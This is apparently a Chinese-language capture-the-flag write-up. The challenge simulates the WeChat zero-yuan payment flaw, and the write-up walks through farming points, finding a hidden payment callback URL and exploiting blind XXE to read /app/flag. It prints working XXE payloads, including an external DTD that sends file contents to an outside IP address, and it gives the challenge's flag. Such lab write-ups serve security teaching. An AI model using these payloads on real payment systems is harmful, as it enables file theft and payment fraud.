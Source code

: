 # 解题过程
+ 注册一个正常的用户
+ 点开FLAG文件，点击购买，看到微信支付页面，获得提示：本题需要利用微信0元支付漏洞。该漏洞利用的前提是知道商城的回调URL,利用的核心为通过xxe获取商城的md5-key,用它伪造微信支付系统的支付结果通知消息，实现0元支付，为了降低题目难度，凸显题目中心，所以在本题中，只要成功利用回调url处的xxe就能拿到flag
+ 通过邀请薅羊毛刷积分,购买SECRET商品,获得商城微信支付的回调URL。由于回调URL是商城比较敏感的接口，所以我们采用了一定的保护措施，直接在浏览器中访问返回的界面为404，但是功能是存在的。
+ 出过题的选手应该知道系统运行的根目录为/app，猜测md5-key的文件名为key，通过xxe获得key，不过猜不到也没关系，题目中给出了提示，继续刷积分，购买商品HINT，获得key的路径及文件名：/app/flag。
+ base64解码获得的flag的值，获得flag明文。

# 详细步骤
+ 注册一个正常的用户
+ 刷够积分购买SECRET，获得回调URL:Details: http://ip:port/qwajsdfxjafioshqrwpieuz
+ 再重新注册一个用户，购买hint，猜到题目目标为获得/app/flag
+ 利用xxe获得key，由于回调URL处的XXE是没有回显的，所以需要用到XXE盲注。构造POST数据包，发送给回调URL。
    * POST数据包中的xml
    ```xml
    <?xml version="1.0"?>
    <!DOCTYPE a [ 
    <!ENTITY % d SYSTEM "http://your_vps_ip/evil.dtd">
    <!ENTITY % file SYSTEM "file:///app/flag">
    %d;%send; 
    ]>
    <c>&b;</c>
    ```

     * evil.dtd中的xml

    ```xml
    <!ENTITY % all "<!ENTITY &#x25; send SYSTEM 'http://108.61.89.98/?%file;'>"> %all;
    ```

    * 查看vps中的apache访问日志，即可获得flag的内容：ZmxhZ3t4eHhzZGZzZGZzZGZ9
    * base64解码，获得flag。
